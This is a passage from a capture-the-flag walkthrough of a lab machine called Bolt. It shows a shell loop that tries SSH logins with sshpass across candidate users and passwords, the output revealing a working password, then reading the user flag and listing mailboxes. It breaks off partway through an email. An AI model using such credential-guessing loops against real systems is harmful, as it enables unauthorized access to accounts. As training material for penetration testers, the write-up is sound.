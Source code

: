 This will get each combination of user and password, and try to SSH to Bolt. The session is running exit immediately after a successful connection, so if that happens, it will exit successfully and print the message. It finds a working set of creds:

```

oxdf@hacky$ for u in clark eddie; do for p in $(cat passwords); do sshpass -p "$p" ssh ${u}@10.10.11.114 -f 'exit' && echo "Success! User: $u Pass: $p"; done; done
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Permission denied, please try again.
Success! User: eddie Pass: rT2;jW7<eY8!dX8}pQ8%

```

Either way, I can get `user.txt`:

```

eddie@bolt:~$ cat user.txt
8403ba4b************************

```

## Shell as root

### Enumeration

#### Mail

`/var/mail` has mailboxes for different users on the system:

```

eddie@bolt:/var/mail$ ls -l
total 16
drwx--S--- 5     5001 mail 4096 Sep  8 14:59 0xdf
-rw------- 1 eddie    mail  909 Feb 25  2021 eddie
-rw------- 1 root     mail    1 Mar  3  2021 root
-rw------- 1 www-data mail    1 Mar  3  2021 www-data

```

I suspect mine has the emails from the SSTI earlier (though I can’t access it as eddie). eddie’s has an email from clark:

```

From clark@bolt.htb  Thu Feb 25 14:20:19 2021
Return-Path: <clark@bolt.htb>
X-Original-To: eddie@bolt.htb
Delivered-To: eddie@bolt.htb
Received: by bolt.htb (Postfix, from userid 1001)
        id DFF264CD; Thu, 25 Feb 2021 14:20:19 -0700 (MST)
Subject: Important!
To: <eddie@bolt.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20210225212019.DFF264CD@bolt.htb>
Date: Thu, 25 Feb 2021 14:20:19 -0700 (MST)
From: Clark Griswold <clark@bolt.htb>

Hey Eddie,

```